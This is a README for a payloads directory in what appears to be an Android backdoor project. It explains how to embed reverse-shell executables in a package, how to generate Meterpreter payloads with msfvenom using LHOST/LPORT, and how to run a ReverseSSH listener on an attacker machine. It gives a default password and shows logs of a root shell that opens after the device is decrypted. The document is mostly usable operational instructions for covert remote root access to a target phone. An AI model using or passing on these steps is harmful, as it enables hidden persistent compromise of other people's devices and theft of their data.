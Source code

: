 ## Custom payloads

This directory is for various payloads to embed in package.

To use a payload, simply put an executable into `revshell/{arch}/` as `revshell`. 
It is not required to place payloads for all archs: those where `revshell` is absent will use default payload.

Payloads tested:
* Simple logcat writer (default) ([link](https://github.com/LuigiVampa92/unlocked-bootloader-backdoor-demo/tree/master/revshell))
* Meterpreter (static, aarch64) - _limited functionality_
* **Reverse SSH** (upx, aarch64) ([link](https://github.com/Fahrj/reverse-ssh)) - _**Recommended**_

#### Logcat writer

The stock payload that simply writes stuff to logcat:
```
$ adb logcat | grep revshell
03-18 00:34:46.884  3197  3197 D revshell: Start successfull!
03-18 00:34:46.885  3197  3197 D revshell: Signals are set to ignore
03-18 00:34:46.885  3197  3197 D revshell: Hey I'm a revshell process!
03-18 00:34:46.885  3197  3197 D revshell: My PID -- 3197
03-18 00:34:46.885  3197  3197 D revshell: My parent PID -- 2381
03-18 00:34:46.885  3197  3197 D revshell: My UID -- 0
03-18 00:34:46.885  3197  3197 D revshell: Awaiting encrypted FS decryption now...
03-18 00:34:51.311  3197  3197 D revshell: FS has been decrypted!
03-18 00:34:51.311  3197  3197 D revshell: Starting reverse shell now
03-18 00:34:56.312  3197  3197 D revshell: tick ! 10 seconds since process started
03-18 00:35:01.312  3197  3197 D revshell: tick ! 15 seconds since process started
```

#### Meterpreter

Use `msfvenom` to generate your payload. You typically want _aarch64/_ or _arm/_ static versions (**not _android/_**). 
Note that staged version might not work reliably, so better use static instead.

Make sure you set LHOST and LPORT in _msfvenom_ command line.

However, even static build may have very limited functionality because of compatibility issues with Android devices.

#### Reverse SSH

This payload ([link]()) has better compatibility with Android and seems to work reliably, though it might be a bit tricky to use. 
`upx_reverse-ssh-armv8-x64` version is recommended. 

Set LHOST and LPORT in `config.prop`. 

Launch _ReverseSSH_ listener on attacker machine:
```
$ ./upx_reverse-sshx64 -l -v -p 31337
```

Once target device boot is complete and device is decrypted, a new connection should pop up:
```
2024/03/18 20:34:30 Successful authentication with password from reverse@192.168.0.11:42967
2024/03/18 20:34:30 Attempt to bind at 127.0.0.1:8888 granted
2024/03/18 20:34:30 New connection from 192.168.0.11:42967: ERROR on localhost reachable via 127.0.0.1:8888
```

Then just _ssh_ into local port:
```
$ ssh -p 8888 localhost sh -i
```
(use default password `letmeinbrudipls`)

... and you're there.
```
sh: can't find tty fd: No such device or address
sh: warning: won't have full job control
:/ # id
uid=0(root) gid=0(root) groups=0(root) context=u:r:rootkit:s0
```

##### Reference: [Running ReverseSSH as reverse shell](https://github.com/Fahrj/reverse-ssh?tab=readme-ov-file#running-reversessh-as-reverse-shell)